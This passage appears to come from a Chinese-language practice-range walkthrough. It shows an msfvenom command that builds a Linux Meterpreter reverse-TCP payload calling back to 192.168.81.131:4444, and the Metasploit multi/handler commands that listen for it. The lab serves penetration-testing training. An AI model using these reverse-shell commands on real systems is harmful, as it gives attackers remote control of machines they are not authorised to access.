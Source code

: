 ### 3-1.3 上传木马文件

MSF生成木马文件，木马文件名为

**4444.elf**

```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=192.168.81.131 lport=4444 -f elf  >4444.elf
```

![image-20220318113629623](靶场练习.assets/image-20220318113629623.png)

### 3-1.4 kali监听

msf进行监听

```
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.81.131
set LPORT 4444
exploit
```

![image-20220318114013302](靶场练习.assets/image-20220318114013302.png)
